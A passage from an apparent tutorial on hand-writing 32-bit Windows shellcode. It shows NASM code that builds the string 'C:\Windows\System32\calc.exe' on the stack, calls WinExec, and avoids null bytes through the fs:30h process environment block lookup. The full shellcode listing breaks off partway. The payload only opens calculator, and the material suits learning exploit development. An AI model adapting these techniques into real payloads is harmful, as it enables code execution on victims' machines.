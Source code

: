 ```nasm
```

# <a name="call_function"></a> Call the function
What's left is to call *WinExec*{: style="color: LightGreen"} with the appropriate arguments: 
```nasm
xor edx, edx
push edx		; null termination
push 6578652eh
push 636c6163h
push 5c32336dh
push 65747379h
push 535c7377h
push 6f646e69h
push 575c3a43h
mov esi, esp   ; esi -> "C:\Windows\System32\calc.exe"

push 10  ; window state SW_SHOWDEFAULT
push esi ; "C:\Windows\System32\calc.exe"
call eax ; WinExec
```

# <a name="write_shellcode"></a> Write the shellcode
Now that you're familiar with the basic principles of a Windows shellcode it's time to write it. It's not much different than the code snippets I already showed, just have to glue them together, but with minor differences to avoid null bytes. I used [flat assembler](https://flatassembler.net/) to test my code.

The instruction "mov ebx, fs:0x30" contains three null bytes. A way to avoid this is to write it as:
```nasm
xor esi, esi	; esi = 0
mov ebx, [fs:30h + esi]
```
![null_bytes](/images/windows_shellcode/null_bytes.png)

The whole assembly for the shellcode is below:

```nasm
format PE console
use32
entry start

  start:
        push eax ; Save all registers
        push ebx
        push ecx
        push edx
        push esi
        push edi
        push ebp

	; Establish a new stack frame
	push ebp
	mov ebp, esp

	sub esp, 18h 			; Allocate memory on stack for local variables

	; push the function name on the stack
	xor esi, esi
	push esi			; null termination
	push 63h
	pushw 6578h
```